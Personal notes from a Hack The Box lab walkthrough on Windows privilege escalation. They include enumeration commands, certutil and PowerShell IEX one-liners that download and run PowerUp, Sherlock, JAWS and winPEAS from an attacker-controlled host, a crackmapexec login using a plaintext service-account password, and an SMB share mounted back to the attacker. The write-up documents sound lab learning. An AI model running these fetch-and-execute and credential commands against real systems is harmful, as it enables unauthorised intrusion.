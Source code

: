 
We got the low level user let's escalate and do the required enumeration 
```
88ee0f1c046c9f0ca4cbe7c6003c9388
```
![[Pasted image 20231114162434.png]]

```
hostname
#User Enumeration
whoami
whoami /priv
whoami /groups
```
![[Pasted image 20231114162706.png]]

```
net user
```
![[Pasted image 20231114162920.png]]

Let's try some automated tools and see if we can got something out of it
```
certutil.exe -urlcache -f http://10.10.16.2:8000/winPEASany.exe winpeas.exe
```

Powerup
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.2:8080/PowerUp.ps1') | powershell -noprofile -
```
![[Pasted image 20231114163812.png]]

Sherlock
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.2:8080/Sherlock.ps1') | powershell -noprofile -
```
![[Pasted image 20231114164120.png]]

Jaws
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.2:8080/jaws-enum.ps1') | powershell -noprofile -
```


![[Pasted image 20231114164839.png]]

```
crackmapexec smb 10.10.10.161 -u svc-alfresco -p 's3rvice' 
```
![[Pasted image 20231114232726.png]]


I like to dig deeper her 
```
SeMachineAccountPrivilege     Add workstations to domain     Enabled
```

Setting up a SMB-share to run Winpeas
Iwas not able to run Winpeas earlier but after seeing the video they have taught a way to do that. We have to make a smb share with user and password so let's give it a try for myself and see what happens.

```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```

Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.8\Hackthebox
```

![[Pasted image 20231115113526.png]]
As you can see we were able to connect successfully

![[Pasted image 20231115113606.png]]

```
cd testing:
```
![[Pasted image 20231115113902.png]]
Still i was not able to run winpeas no worries as i have already enumerated and found that the exploit will not be releated to GPP xml in which we could simply find the cpassword and escalate the exploit might with GPP policy so will run Blood hound instead.



